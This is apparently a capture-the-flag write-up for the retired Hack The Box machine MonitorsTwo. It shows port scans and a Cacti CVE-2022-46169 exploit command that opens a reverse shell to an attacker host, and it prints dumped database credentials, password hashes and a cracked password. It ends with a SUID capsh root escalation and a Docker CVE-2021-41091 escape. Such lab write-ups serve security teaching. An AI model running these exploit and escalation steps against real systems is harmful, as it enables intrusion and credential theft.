 !(Machine Info Card)[_images/MonitorsTwo.png]
### retired on (02/09/2023)
# Summary: 
## foothold:
Vulnerable web service which results in a www-data shell inside a docker container. 
## user:
using docker's `entrypoint.sh` script we're able to obtain DB credentials and dump all user's password hashes.
with `hashcat` its possible to crack one of the hashes and get user credentials for SSH.
## root:
Upon logging in with the user to SSH, we see a prompt for `you have mail`. checking the mail shows that the system is vulnerable to several CVE's.
One of the CVE's is about `moby` an open framework created by Docker to assemble specialized container systems.
with `www-data` shell we're able to escalate our privileges using SUID exploitation on `capsh`. and change the permissions of `/bin/bash` inside the container.
which in turn un-privileged users on host machine can find and execute said SUID binary (`/bin/bash`)
# Foothold
```
┌──(kali㉿kali)-[~/HTB/Machines/MonitorsTwo]
└─$ sudo masscan -p1-65535 10.129.109.77 --rate=3000 --wait=0 -e tun0
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2023-09-02 12:48:57 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.129.109.77                                   
Discovered open port 22/tcp on 10.129.109.77
```

```
┌──(kali㉿kali)-[~/HTB/Machines/MonitorsTwo]
└─$ sudo nmap 10.129.109.77 -sV -sC -p 22,80                         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-02 08:58 EDT
Nmap scan report for 10.129.109.77
Host is up (0.098s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
```

### PORT 80
visiting port 80 we see a login prompt with Version and software name available.
![[Pasted image 20230902160102.png]]

searching on google the software and version we're able to find an exploit on github. 

![[Pasted image 20230902160030.png]]
https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

The exploit requires url, local host and local port. for a reverse shell endpoint.
![[Pasted image 20230902160445.png]]
executing `python3 CVE-2022-46169.py -u http://10.129.109.77/ --LHOST=10.10.16.7 --LPORT=80`
![[Pasted image 20230902160402.png]]

should give us a shell as www-data user.

# USER
## System enumeration
after a quick glimpse it seems we're inside a docker container.
![[Pasted image 20230902160546.png]]

which in turn means there could be an entry script on root directory
![[Pasted image 20230902162019.png]]
which there is.

checking the contents reveals credentials for the database.
![[Pasted image 20230902161019.png]]

## DB enumeration
in order to interact with the DB we need a "full" shell. 
couldn't find python on system, `script` is another way to get a full interactive shell. 
```
script /dev/null -qc /bin/bash
(inside the nc session) CTRL+Z
stty raw -echo; fg;
```

with the shell we're able to login to the db. with the following command.
```
mysql --host=db --user=root --password=root cacti
```
![[Pasted image 20230902161555.png]]
next thing to do is to check which tables are available.
![[Pasted image 20230902161609.png]]

`user_auth` is interesting.
![[Pasted image 20230902161623.png]]

selecting the contents of the table, we get hashes for `admin` and `marcus`
![[Pasted image 20230902161640.png]]
## Cracking hashes
the hashes:
```
admin $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

now we can use hashcat to crack the hashes.
```
hashcat -d 1 -m 3200 hashes/HTB/MonitorTwo.txt rockyou.txt
```
cracked hash:
```
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

The cracked hash belongs to marcus.
since SSH port is open we can try these credentials.
![[Pasted image 20230902162834.png]]
which indeed are valid.

# ROOT
### Potential LPE
when connecting with SSH we get a prompt that we have mail.
![[Pasted image 20230902162855.png]]
mail will be saved on `/var/mail/<USER>`
![[Pasted image 20230902163017.png]]
![[Pasted image 20230902163038.png]]
reading the mail we can conclude that there are couple vulnerabilities on the system.
checking `CVE-2021-41091` exploit, which is an exploit for moby for software containerization by docker.
searching online we're able to find an exploit available on github 
![[Pasted image 20230902163344.png]]
The exploit will check if the host is vulnerable and iterate over the available overlay2 filesystems. If the system is indeed vulnerable
but before running the exploit we got to get root on the docker session, and change the permissions of `/bin/bash`. then run the exploit from host machine. 
the script will attempt to gain root access by spawning a shell in the vulnerable path (the filesystem of the Docker container where you executed the setuid command on /bin/bash).
This CVE requires root on docker container in order to exploit.
![[Pasted image 20230902163902.png]]


### Root on docker
after searching for vulnerabilities in the docker container, I've found that there is binary with SUID.
![[Pasted image 20230902164728.png]]

`/sbin/capsh`  has SUID bit on.
![[Pasted image 20230902165019.png]]
using GTFO bin we can exploit the SUID bit.
https://gtfobins.github.io/gtfobins/capsh/

![[Pasted image 20230902165352.png]]

so basically running `/sbin/capsh --gid=0 --uid=0 --`
should result in root shell
![[Pasted image 20230902165527.png]]
next is to set SUID bit on /bin/bash
![[Pasted image 20230902165602.png]]

the only thing left to do is to run the exploit from the host machine.
### Root on host
![[Pasted image 20230902163612.png]]
so we're gonna download the exploit using python server(from my attack machine).
![[Pasted image 20230902165755.png]]

![[Pasted image 20230902165713.png]]

running the exploit:
![[Pasted image 20230902165937.png]]
the exploit didn't spawn us a root shell, but showed the vulnerable path to `/bin/bash` 
![[Pasted image 20230902170009.png]]

now running `/bin/bash -p` from that path will grant us root user.
![[Pasted image 20230902165953.png]]

# additional information
more on root exploit:
https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure
